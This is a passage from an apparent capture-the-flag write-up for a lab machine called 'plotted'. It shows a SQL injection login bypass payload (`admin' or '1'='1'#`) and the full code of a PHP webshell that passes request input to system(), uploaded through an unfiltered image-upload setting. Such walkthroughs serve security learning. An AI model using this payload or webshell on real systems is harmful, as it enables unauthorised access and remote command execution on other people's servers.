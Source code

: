 If you notice the syntax highlighting after the hash character (`#`) is different because that part of the SQL statement has been made a comment and is no longer a part of the statement. Now, the first part of the statement is only checking to see if our username is `admin` or if the number one is equal to one, which returns true and makes our statement true which allows us to log in without a password.

Now, let's try it on the login page by entering `admin' or '1'='1'#` as the username and anything or blank for the password, then click the "Sign In" button:

![d0ca60e2dc8af822a125721e3efc81e1.png](/resources/07e22c32ef5840aba6903e135d67fd6e.png)

![a3d3245bfaa00a9cb7ea7e33f1e29f3d.png](/resources/35454e2080b04101b60bb1a40c97ccb7.png)

# Initial Foothold

### \[-] plotted.thm:445/management/admin/?page=system\_info

To get a webshell, we can use the upload function for either the "System Logo" or "Potal Cover" under the "Settings" page:

![63cd6db1e3377643a27977a1e617ab52.png](/resources/54b1d2932dc34923914a467be71f7d1e.png)

The upload function does not filter the filetypes and allows any kind of file to be uploaded. We will be using this basic PHP webshell:

```php
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="x">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_REQUEST['x']) {
  system($_REQUEST['x']);
  } else phpinfo();
?>
</pre>
</BODY></HTML>
```

Save the above code to a text file named "`webshell.php`" then upload it:

![dfb0bd2bf43b886993f96d68c1386570.png](/resources/03754bf65cbd4d9d91c3c182146f0c26.png)

After clicking the "Update" button, right-click on the white square that replaced the original image, then click on "Open Image in New Tab" which will open a new tab with our webshell:

![52f049cf4a8c819f4d8fbe5ca9044964.png](/resources/7f647c5b335644cab319b3ffcfd141d3.png)

### \[-] www-data\@plotted
